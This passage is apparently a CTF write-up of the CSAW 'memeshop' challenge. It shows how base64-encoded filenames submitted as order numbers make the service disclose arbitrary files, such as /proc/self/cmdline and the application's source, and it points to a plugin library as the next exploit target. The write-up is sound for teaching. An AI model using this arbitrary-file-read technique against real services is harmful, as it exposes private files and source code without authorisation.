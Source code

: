 Is it just reading a file?

```
<bspar@bspararch:~/Documents/ctfs/csaw>
zsh/3 13867 [130] % echo flag | base64
ZmxhZwo=
[...]
ok, let me know your order number bro: ZmxhZwo=
flag{just kidding, you need a shell}
```

Nice. Submit that for 400 points.

Not really. But that does let you read *some* files. You may be familiar with the /proc filesystem in Linux. If not, read up: http://linux.die.net/man/5/proc.

First we want the binary... That seems like a good idea. Reading `/proc/self/cmdline` should give us some stuff.

```
<bspar@bspararch:~/Documents/ctfs/csaw>
zsh/3 13947 [130] % echo -n "/proc/self/cmdline" | base64
L3Byb2Mvc2VsZi9jbWRsaW5l
[...]
ok, let me know your order number bro: L3Byb2Mvc2VsZi9jbWRsaW5l
ok heres ur receipt or w/e
ruby./memeshop.rb
```

Nice. Let's grab `memeshop.rb`.

```
<bspar@bspararch:~/Documents/ctfs/csaw>
zsh/3 13949 [130] % echo -n "memeshop.rb" | base64
bWVtZXNob3AucmI=
[...]
ok, let me know your order number bro: bWVtZXNob3AucmI=
ok heres ur receipt or w/e
#!/usr/bin/env ruby
GC.disable
require 'tempfile'
require 'base64'
require_relative './plugin/mememachine.so'
[...]
```
This is about when I started scripting stuff. I made a convenient `dump_file()` function to download and dump and save whatever file it was passed (Note: yeah it's buggy - I don't really care). `memeshop.rb` and `pwn_memeshop.py` are here, as well as other supporting files.

Well you can see that it also requires `./plugin/mememachine.so`. Get that. You also need a fortunes and memes dir with stuff inside. Populate that. I just did `echo hi > memes/{skeletal,whatever}`. Then you can run it! 

Running it isn't the easiest if you don't have ruby set up (or if it's set up strange). Make sure you have proper paths set up. I found ruby 2.1.2 worked nicely on my box.

`memeshop.rb` is fairly simple - I don't see any vulns there. So you'll probably be exploiting `mememachine.so`. Drop that into your favorite disassembler/decompiler/debugger. Oh look, there are symbols. Nice.
